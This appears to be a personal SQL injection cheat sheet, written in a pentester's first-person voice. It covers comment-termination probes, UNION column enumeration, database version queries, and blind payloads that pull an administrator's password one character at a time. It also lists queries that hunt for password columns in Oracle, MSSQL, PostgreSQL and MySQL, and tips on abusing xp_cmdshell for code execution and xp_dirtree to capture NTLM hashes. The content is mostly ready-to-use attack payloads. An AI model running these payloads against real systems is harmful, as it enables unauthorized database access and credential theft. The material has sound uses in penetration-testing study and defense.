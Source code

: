 # Entry point
if data is returned in the response, and it is unchanged after appending one of these payloads (or an error is returned) - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 --
; -- 
' --
'; -- 
" --
"; -- 
 /*
' /*
'; /* 
" /*
"; /* 
```
MySQL
```
 #
; # 
' #
'; # 
" #
"; # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until data is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

```diff
SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id="
- 1" UNION SELECT 1,GROUP_CONCAT(table_name SEPARATOR '<br>') ,3 FROM information_schema.tables /*
"
```
# Version enumeration
```
SELECT version() # PostgreSQL / MySQL / MariaDB
SELECT @@version -- MSSQL + # MySQL
SELECT sqlite_version() /* SQLite
SELECT banner FROM v$version -- Oracle
SELECT version FROM v$instance -- Oracle
```
# Blind
if data is not directly returned in the response, we can trigger conditional errors or time delays, using stacked queries, concatenated strings and union attacks:
```
' UNION SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- -
' UNION SELECT CASE WHEN SUBSTR(password,§1§,1)='§char§' THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- - cluster bomb with number list and bruteforcer
```

# Data exfiltration
some of the queries I like to run in order to enumerate the databse further are:

Oracle
```
SELECT DISTINCT owner FROM all_tables; -- list databases
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ser%'; /* lists columns like User, username and user */
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ass%'; -- same but for pass or Password
```
MSSQL
```
SELECT name FROM master.sys.databases;
SELECT t.name AS table_name, c.name AS column_name FROM sys.tables t JOIN sys.columns c ON t.object_id = c.object_id WHERE c.name LIKE '%ass%'; 
```
PostgreSQL
```
SELECT datname FROM pg_database;
SELECT table_name, column_name FROM information_schema.columns WHERE column_name LIKE '%ass%';
```
MySQL
```
SELECT table_name FROM information_shcema.tables WHERE table_schema NOT IN ('mysql','information_schema','performance_schema'); # list all non default table names
```
# Tricks
MSSQL can run system stored procedures such as xp_cmdshell which can be abused to move laterally.
xp_cmdshell -> direct RCE
xp_dirtree -> lists the contents of a folder. can be run against an attacker responder to get service user NTLM.
